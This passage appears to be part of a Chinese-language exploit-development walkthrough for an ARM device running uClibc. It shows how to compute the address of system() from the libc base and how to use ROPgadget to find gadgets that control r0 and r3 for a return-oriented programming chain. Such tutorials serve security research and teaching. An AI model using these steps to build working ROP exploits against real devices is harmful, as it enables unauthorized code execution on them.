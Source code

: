 因此

```plain
system_addr = libc_base_addr + system_offset
```

#### 5\. 寻找 gadget

使用 ROPgadget，在 libc 中找一个可以控制 r0 的 gadget

```plain
ROPgadget --binary ./lib/libc.so.0 | grep "mov r0, sp"
```

[![](assets/1706958084-d8ae83188c8fb6784a8e087fe49199ae.png)](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706708325941-1e45ea07-e831-4a21-a106-1fec6c1889e5.png)

可以看到可以利用的 gadget 非常多，随便选一个即可，比如 0x00040cb8，这个比较简短

```plain
move_r0= libc_base_addr+ 0x00040cb8
```

再在 libc 中找一个可以 pop 到 r3 的 gadget

```plain
ROPgadget --binary ./lib/libc.so.0 --only "pop"|grep r3
```
